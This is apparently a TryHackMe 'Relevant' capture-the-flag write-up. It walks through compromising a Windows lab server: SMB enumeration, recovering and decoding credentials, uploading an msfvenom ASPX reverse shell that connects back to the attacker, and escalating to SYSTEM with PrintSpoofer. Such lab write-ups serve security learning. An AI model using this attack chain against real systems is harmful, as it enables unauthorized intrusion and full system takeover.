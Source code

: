 ```yaml
---
layout: post
title:  "THM - Relevant"
image: /images/rele.jpg
---
```



## THM - Relevant


#### Port Scan

```bash
sudo nmap -A -O -sS $ip 
```

```bash
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ssl/ms-wbt-server?
```

#### Enum Shares

```bash
smbclient \\\\relevant\\nt4wrksv
```

```bash
smb: \> mget passwords.txt
```

```bash                                                                       
┌──(kali㉿Zeus)-[~/Desktop]
└─$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk                                     
```

#### Creds

```bash    
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$   
```

###### Upload Reverse Shell

- [ASPX - Reverse Shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.28.219 LPORT=4444 -f aspx > reverse.aspx                               
smbclient \\\\relevant\\nt4wrksv                                                             
put reverse.aspx
curl http://10.10.103.93:49663/nt4wrksv/reverse.aspx
```

```bash
nc -lnvp 4444 
listening on [any] 4444 ...
connect to [10.8.28.219] from (UNKNOWN) [10.10.103.93] 49881
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

#### Priv Esc

```bash
c:\Users>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

#### PrintSpoofer

```bash
smbclient \\\\relevant\\nt4wrksv
put PrintSpoofer.exe
```

#### Rooted

```bash
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

#### Resources

https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/

https://github.com/dievus/printspoofer